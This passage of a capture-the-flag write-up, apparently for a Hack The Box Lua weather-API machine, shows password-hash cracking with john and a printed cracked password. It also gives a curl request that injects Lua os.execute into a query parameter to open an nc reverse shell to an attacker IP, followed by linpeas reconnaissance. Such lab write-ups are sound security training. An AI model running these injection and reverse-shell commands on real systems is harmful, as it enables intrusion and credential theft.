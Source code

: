 From this execution I was able to read the file `.htpasswd`, which contains the password hash for website access and, using `john` with `rockyou.txt` dictionary, I was able to crack the password.

```bash
$ cat .htpasswd
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
  
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long .htpasswd
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iamthebest (webapi_user)
1g 0:00:00:00 DONE (2021-02-19 17:09) 3.571g/s 10628p/s 10628c/s 10628C/s sexy..14789632
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

To get an reverse shell, I have executed the following HTTP request:

```bash

curl -G --data-urlencode "city=London') os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f') x=('" http://10.10.10.218/weather/forecast

```

## User flag

Inspecting the running processes from `linpeas.sh` execution, observed that user `r.michaels` has an copy of the lua script in execution on his profile. The idea was to get an reverse shell the same way we did at first, but the payload didn't worked. This and the path `devel` where this file reside indicate that this is a newer version patched for the existing vulnerability.

```log
r.michaels 185 0.0 0.0 34992 1964 ? Is 5:56AM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /home/r.michaels/devel/webapi/weather.lua -P /var/run/httpd_devel.pid -U r.michaels
-b /home/r.michaels/devel/www
```

### bozohttpd  

A point that was being unnoticed so far is, that besides we were accessing the app on 80/TCP it was being published initially on 3000/TCP. As this implies that the app has a proxy on its publishing, inspecting the response header we have found a different server from inside the machine:

```bash
curl -I http://127.0.0.1:3000
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
0 199 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0
HTTP/1.1 401 Unauthorized
WWW-Authenticate: Basic realm="."
Content-Type: text/html
Content-Length: 199
Server: bozohttpd/20190228
Allow: GET, HEAD, POST
```
